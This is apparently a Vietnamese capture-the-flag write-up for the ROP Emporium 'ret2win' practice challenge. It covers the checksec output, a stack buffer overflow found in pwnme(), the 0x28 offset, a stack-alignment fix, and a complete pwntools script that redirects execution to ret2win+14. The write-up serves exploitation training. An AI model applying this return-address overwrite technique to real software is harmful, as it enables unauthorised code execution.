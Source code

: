 # ROP_Emporium - ret2win

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm pwnme()

![pwn.png](images/pwnme.png)

Và hàm ret2win()

![ret2win.png](images/ret2win.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 10 cho phép ghi 0x38 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong pwnme thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm ret2win():

![stack1.png](images/stack1.png)

Nhìn vào RSP không chia hết cho 0x10 nên chương trình bị lỗi khi chạy

![sigsev.png](images/sigsev.png)

Ta sẽ bỏ qua phần printf để nhảy đến **[ret2win + 14]**

![stack2.png](images/stack2.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2win', checksec=False)

p = process("./ret2win")

#gdb.attach(p, gdbscript='''''')

payload = flat(
    cyclic(0x28),
    elf.sym['ret2win']+14
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)



